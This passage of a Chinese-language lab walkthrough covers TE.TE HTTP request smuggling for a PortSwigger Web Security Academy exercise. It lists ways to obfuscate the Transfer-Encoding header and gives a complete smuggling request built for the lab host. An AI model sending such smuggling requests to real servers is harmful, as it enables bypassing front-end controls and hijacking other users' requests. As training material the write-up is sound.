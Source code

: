 ### TE.TE vulnerabilities

在这种场景下，前端和后端服务器都支持Transfer-Encoding头，但是可以通过以某种方式混淆头来诱导其中一个服务器不处理它，可能有无穷无尽的方法来混淆传输编码头，例如：

```plain
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

这些技术中的每一种都与HTTP规范有细微的不同，实现协议规范的真实世界代码很少绝对精确地遵守它并且不同的实现容忍与规范不同的变化是很常见的，根据是前端服务器还是后端服务器可以被诱导不处理混淆的传输编码报头，攻击的剩余部分将采取与CL相同的形式，TE还是TE  
靶场地址：[https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header](https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header)  
解题过程：  
Step 1：访问上面的靶场地址并直接点击"ACCESS THELAB"进入靶场  
[![](assets/1704418275-b10ea76e5c7589c6683bbf05a23b5a9e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103154312-bf4f3d18-aa0b-1.png)  
Step 2：抓取数据包并构造如下请求走私的攻击请求

```plain
POST / HTTP/1.1
Host: 0a60007404aa738e80bff93900e000a1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```